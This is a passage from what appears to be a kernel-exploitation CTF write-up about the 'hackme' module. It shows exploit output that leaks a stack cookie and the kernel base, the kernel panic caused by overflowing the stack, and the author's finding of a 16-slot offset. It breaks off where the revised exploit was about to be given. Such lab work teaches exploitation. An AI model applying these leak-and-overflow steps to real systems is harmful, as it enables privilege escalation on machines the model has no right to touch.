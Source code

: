     / $ ./exploit 
    [+] Stage 0: Device Opened!
    Cookie: 8ec78658c974d100
    Kernel Base: ffffffff9ee00000
    Cycle: 1
    Cycle: 2
    Cycle: 3
    Cycle: 4
    Cycle: 5
    Cycle: 6
    Cycle: 7
    Cycle: 8
    Cycle: 9
    Cycle: 10
    Cycle: 11
    Cycle: 12
    Cycle: 13
    Cycle: 14
    Cycle: 15
    Cycle: 16
    [    6.801678] Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: hackme_write+0xae/0xc0 [hackme]
    [    6.802456] CPU: 0 PID: 113 Comm: exploit Tainted: G           O      5.9.0-rc6+ #10
    [    6.802873] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
    [    6.804158] Call Trace:
    [    6.804875]  dump_stack+0x74/0x9f
    [    6.805194]  panic+0xfe/0x2ed
    [    6.806449]  ? hackme_write+0xae/0xc0 [hackme]
    [    6.806703]  __stack_chk_fail+0x14/0x20
    [    6.806923]  hackme_write+0xae/0xc0 [hackme]
    [    6.807116]  vfs_write+0xc2/0x1c0
    [    6.807362]  ksys_write+0xa7/0xe0
    [    6.807551]  ? exit_to_user_mode_prepare+0x31/0x180
    [    6.807757]  __x64_sys_write+0x1a/0x20
    [    6.807940]  do_syscall_64+0x37/0x80
    [    6.808892]  entry_SYSCALL_64_after_hwframe+0x44/0xa9
    [    6.809250] RIP: 0033:0x44f4d7
    [    6.809483] Code: ff ff f7 d8 64 89 02 48 c7 c0 ff ff ff ff eb b7 0f 1f 00 f3 0f 1e fa 64 8b 04 25 18 00 00 00 85 c0 74
    [    6.810219] RSP: 002b:00007ffc98aa2588 EFLAGS: 00000246 ORIG_RAX: 0000000000000001
    [    6.810585] RAX: ffffffffffffffda RBX: 00007ffc98aa2620 RCX: 000000000044f4d7
    [    6.810920] RDX: 0000000000000088 RSI: 00007ffc98aa2590 RDI: 0000000000000003
    [    6.811264] RBP: 00007ffc98aa27e0 R08: 0000000000000000 R09: 0000000000000000
    [    6.812582] R10: 000000000000000a R11: 0000000000000246 R12: 0000000000000011
    [    6.813008] R13: 0000000000000000 R14: 0000000000000011 R15: 0000000000000000
    [    6.813961] Kernel Offset: 0x1de00000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
    [    6.816946] Rebooting in 1 seconds..
	
So we know the offset is 16, cool but know the interesting part!
Our exploit became:
